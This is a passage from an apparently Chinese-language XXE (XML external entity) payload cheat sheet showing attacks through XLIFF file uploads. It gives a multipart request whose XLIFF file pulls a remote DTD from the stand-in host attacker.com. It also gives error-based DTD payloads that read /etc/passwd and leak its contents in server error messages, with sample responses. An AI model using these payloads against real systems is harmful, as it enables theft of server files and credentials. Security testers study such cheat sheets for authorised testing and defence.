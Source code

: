 服务器响应时出错：

```bash
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

#### [Exfiltrating Data via Out of Band](#toc_exfiltrating-data-via-out-of-band)

```bash
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

#### [Exfiltrating Data via Error Based](#toc_exfiltrating-data-via-error-based)

DTD 文件：

```bash
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

服务器响应：

```bash
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

好消息是当请求一个不存在的文件时会将反映在错误消息中。接下来是添加文件内容。

DTD File:

```bash
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

通过 HTTP 发送的错误输出中成功打印了文件的内容。

### [RSS - XEE](#toc_rss-xee)

使用 RSS 格式的 XML 也可利用出 XXE 的漏洞
